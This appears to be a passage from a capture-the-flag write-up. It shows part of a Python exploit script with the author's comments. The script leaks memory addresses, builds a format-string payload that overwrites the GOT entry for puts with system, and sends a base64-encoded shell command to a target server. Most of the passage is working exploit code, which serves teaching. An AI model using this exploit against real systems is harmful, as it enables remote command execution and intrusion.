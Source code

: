 ```
 37     system_offset = system_offsets[target_ip]
 38 except KeyError:
 39     print(f"[-] Invalid target: {target_ip}")
 40     sys.exit(1)
 41 
 42 main_base, libc_base = get_memory_base_addresses(ip=target_ip)
 43 print(f"[+] Main base address:   0x{main_base:08x}")
 44 print(f"[+] libc base address:   0x{libc_base:08x}")
 45 
 46 puts_got = main_base + 0x5048
 47 print(f"[+] GOT table for puts:  0x{puts_got:08x}")
 48 
 49 system = libc_base + system_offset
 50 print(f"[+] system address:      0x{system:08x}")
 51 system_lower = system % pow(2,16)
 52 system_upper = system // pow(2,16)
 53 print(f'[+] system lower:            0x{system_lower:04x}')
 54 print(f'[+] system upper:        0x{system_upper:04x}')
 55 
 56 exploit = b""
 57 exploit += struct.pack("I", puts_got)
 58 exploit += struct.pack("I", puts_got+2)
 59 exploit += f'%53${system_lower - 8}x'.encode()
 60 exploit += b'%53$n'
 61 exploit += f'%54${system_upper - system_lower + pow(2,16)}x'.encode()
 62 exploit += b'%54$n'
 63 
 64 command = f'echo {base64.b64encode(cmd.encode()).decode()} | base64 -d | /bin/sh'.replace(' ', '${IFS}')
 65 
 66 print(f"[*] Command: {cmd}")
 67 print(f"[*] Encoded command: {command}")
 68 print("[*] Sending exploit")
 69 
 70 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 71 s.connect((target_ip, 9999))
 72 s.send(f'{command} /{urllib.parse.quote(pad(exploit))}\r\n\r\n'.encode())
 73 s.close()

```

Comments:
- I’ll use a `pad` function to make sure my input stays the same length each time. Not doing this can make the stack change as I try different payloads. [Lines 11-12]
- `get_memory_base_addresses` will use the webserver to leak the `maps` file to leak the addresses I need. [15-19]
- There’s a lot of code to just calculate different addresses and numbers I’ll need. [29-54]
- I send the overwrite in two parts. I could do this in one, but it would take a long time because I’d have to write a string that was in the billions of characters long. Instead, I’ll overwrite the first two bytes using a few thousand characters, and then the top two bytes. This will stomp on the low two bytes of the next word, but that’s ok. [56-62]
- One other note, the number I want to write the second time is `system_upper - system_lower`. But I want this to be a positive number always, so I’ll add 2^16 to it. If lower is bigger, this gets it back to positive. If upper is bigger, this adds an extra 1 into the two bytes I’m stomping from a different word, which is fine. [61]
- I’ll create a single command that echos some base64 into `base64 -d` and then into `sh`. Then my input can be the base64 data. [64]
- Connect to the server and send the request. [70-73]
